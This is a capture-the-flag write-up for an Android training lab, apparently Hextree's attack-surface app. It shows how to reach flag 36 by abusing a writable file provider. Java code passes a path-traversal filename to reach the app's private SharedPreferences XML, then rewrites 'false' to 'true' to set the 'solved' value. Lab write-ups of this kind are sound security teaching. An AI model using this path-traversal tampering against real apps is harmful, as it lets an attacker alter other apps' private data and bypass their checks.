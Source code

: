 if the shared preferences named `Flag36Preferences` and if it has value named `solved` set to `true` we get our flag  but what is this shared preference ?

>[!info] A `SharedPreferences` is an object points to a file containing key-value pairs and provides simple methods to read and write them. Each `SharedPreferences` file is managed by the framework and can be private or shared. It's saved in xml format

... now what ?
#### Solution
In flag35 we don't only have read permission but also the write , and since this provider uses root address we can go to where this shared preference is and open and edit file then we need to close the app and open it so that the changes take effect 

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* new rules buddy *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // Write the modified content back to the file  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```
